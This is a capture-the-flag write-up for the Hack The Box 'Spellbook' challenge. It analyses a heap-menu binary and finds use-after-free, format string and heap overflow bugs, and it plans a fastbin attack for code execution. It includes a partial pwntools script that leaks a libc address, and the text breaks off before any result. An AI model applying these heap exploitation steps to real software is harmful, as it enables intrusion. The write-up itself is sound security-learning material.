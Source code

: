 # Spellbook
> Write-up author: jon-brandy

## Lessons Learned:
- Leak main arena address by freeing a chunk to unsorted bin.
- Utilizing Heap Overflow for fastbin attack lead to RCE.

## DESCRIPTION:
In this magic school, there are some spellbound books given to young wizards where they can create and store the spells they 
learn throughout the years. There are some forbidden spells that can cause serious damage to other wizards and are not allowed. 
Beware what you write inside this book. Have fun, if you are a true wizard after all..

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/079264de-f052-44f2-bbc2-994e89cc9ae8)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac148f78-c617-47bd-bc9c-dbd02fe1facd)


2. Upon reviewing the main() functions, we found 4 function call that seems to be our interest. Those are **add()**, **delete()**, **edit()**, and **show()**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3dd271bb-f89a-4e64-bdf3-57a392a7be7b)


3. Great! Let's review the **add()** function first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/58851af2-e2d8-42e6-992a-b16cff1399f7)


4. Based from the code above, everytime we allocate a chunk and it's size, a new chunk with 0x30 sized field is also created. Let's prove that by allocate a small size of chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/911fbc71-1d53-49dd-9d58-d338f3e91caa)


5. Now let's review the **delete()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf0bd5df-e0ce-45da-b923-29c49a2f351c)


6. Noticed the **__ptr** and **__ptr->sp** is freed but is not set to NULL afterwards. Hence we can still use the chunk later, it's introduce **Use After Free** vuln.
7. Remembering at the **add()** function, we can allocate up to 1000 bytes and there is Use After Free vuln at the **delete()** function. We can leak main arena libc address by freeing size above a fastbin range, so it shall fell to the unsorted bin. Using UAF, we might could obtain RCE.
8. Now let's review the **show()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d269956-3cca-4a3b-893b-f56bcd0600ef)


9. Nothing interesting here, it just prints all the data we sent before.
10. BUT, it introduces another vuln. A Format Strings Bug (FSB).
11. We can use an alternate way to leak libc address, by using this vuln.
12. Now let's analyze the **edit()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/041c506d-dcb5-4d9a-a7af-dc716ce2aa05)


13. Found a heap overflow vuln at the second input, remembering the smallest size of chunk we can allocate using malloc is 0x20 sized field. Hence if we allocate under 0x30 sized field and we edit the size of that chunk up to 0x30, we can overwrite metadata of chunk that are adjacent with it.
14. Great! Seems we already identified all the vuln, our objective is to do fastbin attack (fastbindup) which lead to RCE.
15. Let's start by writing the main arena's libc address to the unsorted bin. I allocate 0x200 chunk's size to make sure it outside of the fastbin range so it fell to unsorted bin when freed.

> TEMPORARY SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './spellbook'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def malloc(index: int, input_type: bytes, size: int, data: bytes):
    sh.sendlineafter(b'>> ', b'1')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b'power: ', str(size))
    sh.sendlineafter(b': ', data)

def show(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index: int, input_type: bytes, data: bytes):
    sh.sendlineafter(b'>> ', b'3')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b': ', data)

def free(index: int):
    sh.sendlineafter(b'>> ', b'4')
    sh.sendlineafter(b'entry: ', str(index))

sh = start()

malloc(0, b'A' * 8, 0x200, b'A' * 8)
malloc(1, b'B' * 8, 0x68, b'B' * 8) # allocate another junk to prevent consolidation with the top chunk.

free(0)
show(0)

gdb.attach(sh)

sh.interactive()
```

> RESULT

